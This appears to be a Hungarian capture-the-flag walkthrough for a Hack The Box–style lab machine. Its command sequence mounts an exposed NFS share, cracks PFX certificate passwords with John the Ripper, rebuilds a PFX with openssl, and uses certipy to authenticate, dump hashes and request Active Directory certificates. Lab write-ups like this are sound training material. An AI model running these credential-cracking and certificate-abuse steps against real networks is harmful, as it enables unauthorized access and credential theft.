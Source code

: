 **NFS elérhető, mountoljuk:**

```bash
showmount -e 10.10.11.65
mkdir /tmp/helpdesk
sudo mount -t nfs 10.10.11.65:/helpdesk /tmp/helpdesk
ls -l /tmp/helpdesk
```
**Talált fájlok:**
- baker.crt
- baker.key
- clark.pfx
- lewis.pfx
- scott.pfx

**Jelszó feltörése PFX-hez:**
```bash
pfx2john clark.pfx > clark.hash
john --wordlist=/usr/share/wordlists/rockyou.txt clark.hash
```
Jelszó: `ne*********`

**baker.key feloldása**
```bash
openssl rsa -in baker.key -out baker.plain.key
```

**baker.key + baker.crt → pfx:**
```bash
sudo openssl pkcs12 -export -out baker.pfx -inkey baker.plain.key -in baker.crt
```

---

## Certipy authentication baker.pfx-el

```bash
certipy auth -pfx baker.pfx -username d.baker -dc-ip 10.10.11.65
```
TGT szerzés, hash dump, `.ccache` export:
```bash
export KRB5CCNAME=d.baker.ccache
```

---

## Certipy find & új cert szerezése

```bash
certipy find -k -no-pass -dc-ip 10.10.11.65 -target dc01.scepter.htb
certipy req -u 'd.baker@scepter.htb' -dc-ip 10.10.11.65 -dc-host dc01.scepter.htb -target dc01.scepter.htb -ca 'scepter-DC01-CA' -template 'User' -k -no-pass
```

---
